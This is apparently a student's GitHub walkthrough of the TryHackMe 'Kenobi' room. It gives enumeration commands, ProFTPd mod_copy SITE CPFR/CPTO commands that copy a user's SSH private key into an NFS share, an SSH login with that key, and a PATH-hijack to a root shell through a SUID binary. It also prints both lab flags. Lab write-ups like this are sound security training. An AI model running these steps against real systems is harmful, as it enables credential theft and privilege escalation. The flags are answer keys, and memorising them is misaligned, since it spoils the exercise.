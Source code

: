 Room: https://tryhackme.com/r/room/kenobi
Title: Kenobi
Target IP: 10.10.61.170

1. Scan the machine with nmap, how many ports are open?
   - Perform a basic nmap scan using ```nmap -sC -sV [Target IP]```
   - We see 7 ports open: 21,22, 80, 111, 139, 445, 2049
   - Answer: **7**

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/d2b36b23-1af4-4926-aafa-2894b0672133)

2. Using the nmap command above, how many shares have been found?
   - ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [Target IP]```
   -  ```-p``` specifies which port to do an nmap scan
   -  ```--script``` tells the nmap to use a script to enumerate shares
   -  We find three shares: \\10.10.61.170\IPC$:, \\10.10.61.170\anonymous:, \\10.10.61.170\print$:
   -  Answer: ***3***

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/82cff097-a320-438a-a1e7-1bb19ac4c99a)

3. Once your're connected, list the files on the share. What file can you see?
   - Use ```smbclient //[Target IP]/anonymous``` to connect to the machines network share
   - Enter any value for the password
   - List out the files use ```ls```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/20b6445a-68c5-485c-8079-673e24c617d3)

4. What port is FTP running on?
   - Save the file to your current directory using ```get log.txt```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/98ff0f8e-c001-4964-88bd-3bd4cf4401ec)

  - View the contents of the log.txt file and see what port FTP is running on

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/59e92523-23a0-42db-9328-644fbba22ce1)

  - Answer: **21**

4. What mount can we see?
  - Copy and paste the given command ```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [Target IP]```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/6174c55a-ecd7-4833-9d6d-43b7990db4a4)

  - Answer: **/var**

5. What is the version?
  - Use netcat listner on port 21 to see the version of FTP being used
  - ```nc [Target IP] 21```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/bf182516-a6b4-487a-8d1c-380fa370dd1d)

6. How may exploits are there for the ProFTPd running?
   - Searchsploit is a build in command line tool that seraching for exploits based on exlpoit-db.com
   - ```searchsploit proftpd 1.3.5```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/e4bb2ab9-d7c9-4e9c-ae6a-334e8203cc2e)

  - Answer: **4**

7. What is Kenobi's user flag?
  - Go back to netcat listener ```nc [Target IP] 21```
  - Enter command ```SITE CPFR /home/kenobi/.ssh/id_rsa```
  - Enter command ```SITE CPTO /var/tmp/id_rsa```
  - NOTE: These commands help to rename, relocate, and copy the directory ```/home/kenobi/.ssh/id_rsa``` to our own machine

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/abd69cbf-0446-4413-a562-09ce68790e94)

  - Create this directory ```mkdir /mnt/kenobiNFS```
  - Navigate to it
  - Mount the /var/tmp/ directory, ```mount [Target IP]:/var /mnt/kenobiNFS```
  - Use ```ls -la /mnt/kenobiNFS``` to view the files/directories and their permissions

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/1c89d21b-6282-42b3-b587-a734b7c73654)

  - Copy the id_rsa private key to our machine and directory of choice

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/6ca618b0-125a-4e17-b33e-1fdb0df3ff61)

  - Change file permissions so only we can read id_rsa
    ```chmod 600 id_rsa```
  - SSH into Kenobi's account using the private key
    ```ssh -i id_rsa kenobi@[Target IP]```
    
  - NOTE: If you get this SSH error, you may need to switch from NAT to Bridged Adapted (vice versa) in your Virtual Machine settings...

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/6ac5112c-8645-494e-8643-02875d513fec)

  - Find the flag!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b48def7d-0fb3-418c-9733-d3e7f3198a64)

  - Answer: **d0b0f3f53b6caa532a83915e19224899**

8. What file looks particularly out of the ordinary?
  - Run the command ```find / -perm -u=s -type f 2>/dev/null```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/444f81b2-2de6-492a-8a20-0bf220b5819b)

  - Answer: ```/usr/bin/menu```

9. Run the binary, how many options appear?
  - Run ```/usr/bin/menu```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/df3a9cc5-a969-4a08-abe0-275a9dd7b222)

  - Answer: **3**

10. What is the root flag?
  - Follow the commands to manipulate our path and gain a root shell
  - ```cd /tmp``` Navigate to the tmp directory
  - ```echo /bin/sh > curl``` outputs a file named curl with the contents of /bin/sh
  - ```chmod 777 curl``` changes permissions to read,write,execute for the user, group users, and others
  - ```export PATH=/tmp:$PATH``` tells the system to look at the tmp directory first to run commands
  - ```/usr/bin/menu``` executes the "menu" executable file
  - Find the flag!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/a9118b14-4d79-4c79-b38e-7944d0596613)

   - Answer: **177b3cd8562289f37382721c28381f02**
